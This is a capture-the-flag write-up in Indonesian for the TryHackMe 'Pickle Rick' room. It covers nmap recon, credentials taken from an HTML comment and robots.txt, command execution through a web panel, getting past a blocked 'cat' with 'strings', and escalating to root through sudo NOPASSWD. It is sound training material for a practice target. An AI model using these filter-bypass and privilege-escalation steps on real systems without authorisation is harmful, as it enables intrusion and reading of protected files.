# Pickle Rick — TryHackMe Writeup

**Target:** Pickle Rick  
**Platform:** TryHackMe  
**Difficulty:** Easy  
**Kategori:** Web, Command Injection, Privilege Escalation  

---

## Recon

nmap -sC -sV -T4 TARGET



```
22/tcp  open  ssh   OpenSSH 8.2p1 Ubuntu
80/tcp  open  http  Apache httpd 2.4.41 (Ubuntu)
```

Web menjadi attack surface utama.

---

## Enumerasi Web

### Page Source

Melihat source halaman utama ditemukan komentar:

```html
<!-- Note to self, remember username! Username: R1ckRul3s -->
```



Didapatkan kandidat username.

---

### robots.txt

http TARGET/robots.txt

```
Wubbalubbadubdub
```



Setelah menemukan username, file `robots.txt` diperiksa dan ditemukan string yang kemungkinan besar merupakan password.

---

## Initial Access

Endpoint `/login.php` ditemukan melalui enumerasi.



Menggunakan kombinasi:
- username: R1ckRul3s  
- password: Wubbalubbadubdub  

Login berhasil dan mengarah ke halaman `portal.php`.

---

## Remote Command Execution

```bash
id
```



```
uid=33(www-data) gid=33(www-data)
```

Akses diperoleh sebagai user `www-data`.

---

## Enumerasi via Command Panel

### Listing File

```bash
ls
```



```
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
portal.php
robots.txt
```

---

### Command Restriction

```bash
cat Sup3rS3cretPickl3Ingred.txt
```



Command `cat` dibatasi oleh aplikasi.

---

### Bypass Restriction

```bash
strings Sup3rS3cretPickl3Ingred.txt
```


Isi file berhasil dibaca.

---

## Eksplorasi Sistem

Command execution bersifat stateless, sehingga setiap perintah dijalankan dalam environment baru.  
Untuk itu digunakan chaining (`&&`) atau absolute path.

---

### Cari User Directory

```bash
ls /home
```


```
rick
ubuntu
```

---

### Akses Folder Rick

```bash
strings /home/rick/"second ingredients"
```



File berhasil dibaca.

---

## Privilege Escalation

### Enumerasi Sudo

```bash
sudo -l
```



```
(ALL) NOPASSWD: ALL
```

---

### Akses Root Directory

```bash
sudo ls /root
```



```
3rd.txt
```

---

### Membaca File Root

```bash
sudo strings /root/3rd.txt
```



File berhasil dibaca dengan privilege root.

---

## Ringkasan

Recon → Nmap  
Credential → source + robots.txt  
Initial Access → Login panel  
Exploit → Command Injection  
Enumerasi → Bypass restriction (`strings`)  
PrivEsc → sudo NOPASSWD: ALL  
Root → akses /root  

---

## Takeaway

- Credential dapat ditemukan dari kombinasi source code dan robots.txt  
- Command injection sederhana cukup untuk full compromise  
- Lingkungan stateless membutuhkan chaining atau absolute path  
- `sudo -l` adalah langkah penting dalam post-exploitation  

Insight utama:

RCE ditambah konfigurasi sudo yang lemah memungkinkan akses root tanpa eksploit kompleks
